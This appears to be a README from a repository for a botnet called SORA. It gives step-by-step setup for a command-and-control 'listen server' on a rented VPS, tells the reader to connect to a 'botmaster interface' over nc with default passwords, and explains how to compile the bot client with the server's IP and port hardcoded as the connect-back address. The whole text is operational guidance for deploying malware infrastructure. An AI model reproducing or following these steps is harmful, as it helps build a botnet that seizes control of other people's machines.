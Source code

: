 # Setting up the Sora listen server 

1. Buy a VPS 
2. `git clone https://github.com/thecarterb/SORA.git && cd SoraServer`
3. `gem install bundler && bundle install`

## Starting the _bot_ listener server
1. `./server <port>`

Be sure that `<port>` is the same port that you have configured the bots to connect back to.

## Connecting to the botmaster interface

Do `nc <your ip> 45678`, the default password is `botmaster` and the default password is `ilovedogs`. 
Be sure to change these.

***

# Configuring the client

1. Change `HttpRequest request = HttpRequest.get("http://192.168.153.34:8080");`
  * Change the `IP:port` to your server and listen port
2. Compile the jar by doing `./setup.sh <JAR name.jar>`
